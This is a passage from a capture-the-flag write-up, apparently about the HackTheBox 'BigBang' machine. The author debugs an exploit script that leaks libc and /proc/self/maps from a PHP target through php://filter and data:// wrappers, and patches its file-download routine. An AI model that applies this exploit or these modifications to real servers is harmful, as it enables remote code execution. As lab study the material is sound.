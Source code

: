 ```
│   196 │   │                                                                                      │
│ ❱ 197 │   │   self.info["libc"] = ELF(LIBC_FILE, checksec=False)                                 │
...[snip]...
ELFParseError: expected 8, found 2

```

When it’s trying to read the downloaded LIBC file, it’s failing with the message “expected 8, found 2”. This has to do with the fact that the last six bytes are truncated from LIBC in downloading it.

There’s a `download_file` function that’s only called once to get LIBC:

```

        self.download_file(libc.path, LIBC_FILE)

```

I’ll update that to include six null bytes and hope that doesn’t mess anything up:

```

    def download_file(self, remote_path: str, local_path: str) -> None:
        """Downloads `remote_path` to `local_path`"""
        # data = self.get_file(remote_path)
        data = self.get_file(remote_path) + b"\x00" * 6
        Path(local_path).write(data)

```

The next crash is a decoding error:

```

oxdf@hacky$ uv run exploit.py http://blog.bigbang.htb id
[*] The data:// wrapper works
[*] The php://filter/ wrapper works
[*] The zlib extension is enabled
[+] Exploit preconditions are satisfied
[x] UnicodeDecodeError 'utf-8' codec can't decode byte 0x80 in position 69770: invalid start byte
...[snip]...
│ /media/sf_CTFs/hackthebox/bigbang-10.10.11.52/exploit.py:156 in get_regions                      │
│                                                                                                  │
│   153 │   def get_regions(self) -> list[Region]:                                                 │
│   154 │   │   """Obtains the memory regions of the PHP process by querying /proc/self/maps."""   │
│   155 │   │   maps = self.get_file("/proc/self/maps")                                            │
│ ❱ 156 │   │   maps = maps.decode()                                                               │
│   157 │   │   PATTERN = re.compile(                                                              │
│   158 │   │   │   r"^([a-f0-9]+)-([a-f0-9]+)\b" r".*" r"\s([-rwx]{3}[ps])\s" r"(.*)"             │
│   159 │   │   )                                                                                  │
╰──────────────────────────────────────────────────────────────────────────────────────────────────╯
UnicodeDecodeError: 'utf-8' codec can't decode byte 0x80 in position 69770: invalid start byte

```
